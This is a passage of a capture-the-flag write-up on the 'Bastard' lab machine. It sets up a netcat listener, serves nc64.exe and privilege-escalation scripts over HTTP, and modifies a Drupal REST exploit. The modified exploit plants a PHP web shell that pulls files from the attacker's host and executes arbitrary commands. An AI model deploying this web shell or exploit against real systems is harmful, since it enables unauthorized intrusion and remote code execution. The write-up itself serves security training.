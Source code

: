 Unzip the netcat files so we can upload and run them.  
Setup our netcat listener.  

{% highlight zsh %}
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premium/Bastard]─[root@Arthorias]─[0]─[4186]
╰─[:)] # nc -nlvp 6969
listening on [any] 6969 ...
{% endhighlight %}  

We place our nc64.exe in the folder where our HTTP server is running.  

{% highlight zsh %}
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premium/Bastard/server]─[root@Arthorias]─[0]─[4201]
╰─[:)] # ls -la
total 624K
drwxr-xr-x 2 root root 4.0K Apr 16 04:55 .
drwxr-xr-x 3 root root 4.0K Apr 16 04:55 ..
-rw-rw-r-- 1 root root  43K Dec 26  2010 nc64.exe       <--> Our Executable of Netcat x64 
-rw-r--r-- 1 root root 550K Apr 16 03:58 PowerUp.ps1
-rw-r--r-- 1 root root  17K Apr 16 04:24 https://hackingprofessional.github.io/Security/Hacking-Windows/ Sherlock.ps1
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premium/Bastard/server]─[root@Arthorias]─[0]─[4202]
╰─[:)] # python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
{% endhighlight %}    

Next, I'm going to alter the initial code of the exploit a bit.
In this way, the next steps will be easier:  

{% highlight php %}
$url = 'http://10.10.10.9/';
$endpoint_path = '/rest';
$endpoint = 'rest_endpoint';

$phpCode = <<<'EOD'
<?php
    /* In the next conditional, by means of the parameter upload_file we can upload files. */
	if (isset($_REQUEST['upload_file'])) {
  		file_put_contents($_REQUEST['upload_file'], file_get_contents("http://10.10.14.17:8000/" . $_REQUEST['upload_file']));
    };
    
    /* In the next conditional, by means of the parameter execute_command we can execute commands. */ 
	if (isset($_REQUEST['execute_command'])) {
  		echo "<pre>" . shell_exec($_REQUEST['execute_command']) . "</pre>";
	};
?>
EOD;

/* We modify the data value, which must be equal to the newly created variable. */ 
$file = [
    'filename' => 'Gerh.php',
    'data' => $phpCode
];
{% endhighlight %}  
